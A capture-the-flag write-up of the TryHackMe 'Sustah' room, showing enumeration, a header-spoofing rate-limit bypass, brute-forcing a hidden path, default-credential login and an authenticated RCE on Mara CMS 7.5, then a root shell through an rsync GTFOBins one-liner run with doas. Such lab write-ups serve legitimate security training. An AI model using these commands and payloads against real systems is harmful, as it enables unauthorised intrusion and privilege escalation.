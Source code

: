 # 65 - Sustah (Http Rate Limit Bypass)

Room Link --> [https://tryhackme.com/room/sustah](https://tryhackme.com/room/sustah)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.212.70 -p- -sV -T4 -T5

PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
8085/tcp open  http    syn-ack Gunicorn 20.0.4
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.212.70:8085/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error

/home
/ping
```
{% endcode %}

Opening HTTP service running on port 8085 we get a HTTP server that is also running runicorn meaning its a flask web application and it appears to be a gaming site

<figure><img src="https://miro.medium.com/v2/resize:fit:602/1*MfCJRRKRFkQIczS4FLW3Sw.png" alt="" height="378" width="700"><figcaption></figcaption></figure>

I tried to bruteforce the number but there is a rate limiting feature.

The answer headers look like that:

<figure><img src=".gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

### HTTP Rate Limit Bypass

Check hacktricks for a bypass method.

```bash
# tried all..
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
X-Client-IP: 127.0.0.1
X-Host: 127.0.0.1
X-Forwared-Host: 127.0.0.1

#or use double X-Forwared-For header
X-Forwarded-For:
X-Forwarded-For: 127.0.0.1

# but only this worked:
X-Remote-Addr: 127.0.0.1
```

They are gone now..

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So forward the request to intruder to bruteforce the Numbers.

The hint displayed \*\*\*\*\* 5 stars, so the logical move is to start from 10000.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
/YouGotTh3P@th
```

Navigating to the path:

So this didn't work --> [http://10.10.212.70:8085/YouGotTh3P@th](http://10.10.212.70:8085/YouGotTh3P@th)

But this worked --> [http://10.10.212.70/YouGotTh3P@th/](http://10.10.212.70/YouGotTh3P@th/)

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

So Mara CMS. Googling the exploit for this CMS, and found an authenticated RCE exploit.

Enumerating dirs and files for this CMS

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.212.70/YouGotTh3P@th/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 500 --no-error -x txt,html,php,py,ini,db,sql -b 403,500,404

/index.php
/blog
/about.php
/css
/template
/log
/theme
/changes.txt
/plugin
```
{% endcode %}

### Initial Access

We got the version: Mara 7.5

The default credentials worked: `admin : changeme` .

Using this [exploit](https://www.exploit-db.com/exploits/48780)

<figure><img src=".gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Files saved to: /var/www/html/YouGotTh3P@th/img

So i navigated to : [http://10.10.212.70/YouGotTh3P@th/img/shell.php](http://10.10.212.70/YouGotTh3P@th/img/shell.php) and got shell.

<figure><img src=".gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The hint says look for backup files, there is a backups dir in /var, we found kiran password in a `.bak.passwd` .

`kiran : trythispasswordforuserkiran` .

And we su into Kiran acct.

### Priv Esc to root

After linpeas had finished running i found out that kiran could run rsync as the root user without providing the root’s password. This was a misconfiguation on it’s own

<figure><img src="https://miro.medium.com/v2/resize:fit:602/1*xobiL0zUULtjH4RsFiKEUw.png" alt="" height="63" width="700"><figcaption></figcaption></figure>

Looking at GTFOBins there is a way we could get a shell using rsync

<figure><img src="https://miro.medium.com/v2/resize:fit:602/1*AwTha1sZZUGB4oMZuBhNIg.png" alt="" height="121" width="700"><figcaption></figcaption></figure>

So i tried executing the command as kiran user

The command was

```
doas -u root rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
```

<figure><img src="https://miro.medium.com/v2/resize:fit:602/1*GstFkXKsXBTC78xRZpZmyw.png" alt="" height="70" width="700"><figcaption></figcaption></figure>

Done!

